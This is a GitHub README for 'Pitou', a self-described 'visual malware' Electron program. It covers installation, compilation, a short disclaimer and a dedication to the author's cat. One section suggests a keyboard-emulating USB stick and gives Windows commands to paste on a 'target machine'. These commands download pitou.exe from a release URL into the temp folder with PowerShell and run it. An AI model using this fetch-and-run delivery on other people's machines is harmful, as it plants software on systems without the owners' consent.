

# Pitou 
Pitou is a visual malware developed for education purposes.

This program is written in Javascript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.



## How to use
### Disclaimer
- This malware is for academic purposes, the use of this software is your responsibility.

### Use with Node.js
1) Run `npm install`.
2) Run `npm run start`.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `pitou.exe`.

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) Install [Electron-Builder](https://www.electron.build/).
3) Run `electron-builder --win portable`.
4) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Pitou/releases/download/v2.0.0/pitou.exe" -outfile "p.exe"
p.exe
exit
```

## Context
Pitou is my cat and I love him so much that I've decided to honour him doing this program.
Please, he is so nice so take care of him and he will be happy, and you'll never forget him ...
Lila is his mother and Clony is his sister.
